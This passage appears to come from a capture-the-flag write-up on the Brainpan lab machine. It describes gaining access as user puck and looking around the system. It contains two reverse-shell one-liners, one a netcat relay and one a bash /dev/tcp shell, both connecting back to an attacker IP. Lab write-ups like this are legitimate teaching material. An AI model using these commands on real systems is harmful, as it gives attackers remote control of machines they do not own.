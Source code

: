 ![home-folder](assets/markdown-img-paste-20210908143512357.png)

![c-users](assets/markdown-img-paste-20210908143804138.png)

We're in as user puck. There's two  more users, reynard and anansi. We don't have access to their home folders. There's a script checking and running the web server if it dies. The machine seems to be a linux using wine to emulate windows and run the brainpan exe.

Was able to start 'bin/bash' and ran linpeas and sent back the results.

`nc -lp 1234 | sh | nc 10.8.210.115 4242`

![linpeas](assets/markdown-img-paste-20210909130549823.png)

Also started a proper reverse bash shell.

`bash -i >& /dev/tcp/10.8.210.115/4242 0>&1`

![proper-bash](assets/markdown-img-paste-20210909140358411.png)
